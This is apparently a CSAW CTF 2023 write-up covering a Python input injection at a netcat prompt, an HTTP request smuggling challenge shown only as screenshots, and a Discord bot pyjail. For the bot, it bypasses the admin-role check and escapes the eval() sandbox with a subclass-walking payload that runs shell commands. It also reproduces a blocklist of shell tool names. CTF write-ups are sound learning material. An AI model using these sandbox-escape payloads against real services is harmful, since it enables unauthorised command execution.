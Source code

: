 ```yaml
---
render_with_liquid: false
title: CSAW CTF 2023
tags: [ctf, csaw-ctf-2023, misc, web, python-jail-escape, http-request-smuggling, discord, discord-bot]
---
```




# Intro

> Only played a little for this

## my_first_pwnie


### Info

You must be this 👉 high to ride.

Author: `ElykDeer`

---

Connect with:

`nc intro.csaw.io 31137`


### Solve

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/csaw-ctf-2023]
└─$ rlwrap nc intro.csaw.io 31137
What's the password? __import__('os').system('cat /flag.txt')
csawctf{neigh______}
You entered `0`
Nay, that's not it.
```


# Web


## Smug-Dino


### Info

Don't you know it's wrong to smuggle dinosaurs... and other things?

Author: `rollingcoconut`

---

[http://web.csaw.io:3009/](http://web.csaw.io:3009/){:target='_blank'}


### Solve

HTTP request smuggling

![](/assets/obsidian/f4ef1672dd433e17fecd164124922a51.png){:target='_blank'}

![](/assets/obsidian/b62d54d854c1bc08f911bd0d598fc3be.png){:target='_blank'}


# Misc


## Discord Admin Bot


### Info

Join discord and get the flag.

discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23

`Author: Krishnan Navadia`


### Solve

![](/assets/obsidian/95dc092681dd6b4f5b3c5592c4ac6fed.png){:target='_blank'}

There's no way I get admin role at the server, but it's not strictly checking for `role_id`, 

so I can invite the bot to my own server, then give myself a role called `admin`

![](/assets/obsidian/aa1d27a95942e2eee09f15c5b1166670.png){:target='_blank'}

The pyjail uses `eval()` to wrap user input

![](/assets/obsidian/fe909dc876eec6c063e21cf1e1e66642.png){:target='_blank'}

It doesn't ban `class`

```python
SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)
```

Invite that bot by copying its id, then fit in the invite url format : `https://discord.com/oauth2/authorize?client_id=1152454751879962755&scope=bot&permissions=8`

![](/assets/obsidian/e41383a95946744af032cbc898a83295.png){:target='_blank'}

Craft payload :

First mirror the functions in `ipython3` to test on local

```python
import subprocess, os

SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)

def pyjail(text):
    if excape_chars(SHELL_ESCAPE_CHARS, text):
        return "No shells are allowed"

    text = f"print(eval(\"{text}\"))"
    proc = subprocess.Popen(['python3', '-c', text], stdout=subprocess.PIPE, preexec_fn=os.setsid)
    output = ""
    try:
        out, err = proc.communicate(timeout=1)
        output = out.decode().replace("\r", "")
        print(output)
        print('terminating process now')
        proc.terminate()
    except Exception as e:
        proc.kill()
        print(e)

    if output:
        return f"```{output}```"
```

![](/assets/obsidian/7f591a94403f6c975e4e3650615b7735.png){:target='_blank'}

```bash
In [3]: pyjail("''.__class__.__mro__[1].__subclasses__()")
```

![](/assets/obsidian/83ed303e1537f7688ab800bd84ba58a5.png){:target='_blank'}

Success

```bash
In [14]: pyjail("''.__class__.__mro__[1].__subclasses__()[140].__init__.__globals__['system']('pwd'){:target='_blank'}")
/home/kali/ctf/csaw-ctf-2023
0

terminating process now
Out[14]: '```/home/kali/ctf/csaw-ctf-2023\n0\n```'
```

Final payload :

```bash
print(''.__class__.__mro__[1].__subclasses__()[140].__init__.__globals__['system']('cat flag.txt'){:target='_blank'})
```

